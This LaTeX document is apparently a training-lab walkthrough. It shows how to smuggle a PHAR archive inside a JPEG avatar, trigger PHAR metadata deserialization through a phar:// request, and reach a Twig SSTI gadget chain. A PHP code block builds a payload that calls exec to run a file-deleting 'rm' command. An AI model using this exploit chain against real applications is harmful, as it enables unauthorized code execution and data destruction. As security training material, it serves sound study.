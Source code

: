 \documentclass[11pt]{article}
\begin{document}
\subsection{Lab 10: Using PHAR Deserialization to Deploy a Custom Gadget Chain}
\begin{labbox}{Goal}
The avatar-upload feature only accepts JPG and never calls \texttt{unserialize()} directly. Smuggle a PHAR archive inside a valid JPEG, upload it as an avatar, then trigger deserialization indirectly through a \texttt{phar://} filesystem check to reach an SSTI-based RCE chain and delete \texttt{morale.txt}.
\end{labbox}
\begin{enumerate}
    \item Upload a normal JPG as your avatar; note it is served via \\  \texttt{GET /cgi-bin/avatar.php?avatar=wiener}.
    \item Request \texttt{GET /cgi-bin} to discover an index listing \texttt{Blog.php} and \texttt{CustomTemplate.php}; retrieve both via the \texttt{.php\~{}} trick.
    \item Read the source: \texttt{CustomTemplate}'s \verb|__wakeup()| calls \texttt{file\_exists()} on a \texttt{lockFilePath} derived from a \texttt{Blog} object's \texttt{desc} field, and \texttt{Blog} uses the Twig template engine to render \texttt{desc} -- an SSTI sink.
    \item Build a Twig SSTI payload that shells out, e.g.\ using \verb|registerUndefinedFilterCallback| to call \texttt{exec}, and embed it in a \texttt{CustomTemplate} → \texttt{Blog} object graph:
\begin{lstlisting}[style=code]
class CustomTemplate {} class Blog {}
$object = new CustomTemplate;
$blog = new Blog;
$blog->user = "any_user";
$blog->desc = '{{_self.env.registerUndefinedFilterCallback("exec")}}'
            . '{{_self.env.getFilter("rm /home/carlos/morale.txt")}}';
$object->template_file_path = $blog;
\end{lstlisting}
    \item Serialize this object graph, embed it as the \textbf{metadata} of a freshly built PHAR archive, then wrap the PHAR in a valid JPEG header (a PHAR/JPG polyglot) so it passes the upload filter, and upload it as the avatar.
    \item In Repeater, change the avatar request to use the \texttt{phar://} stream wrapper against your own uploaded file: \texttt{GET /cgi-bin/avatar.php?avatar=phar://wiener}. The filesystem check inside \texttt{avatar.php} triggers PHAR metadata deserialization, executing the gadget chain and deleting the file.
\end{enumerate}
\end{document}
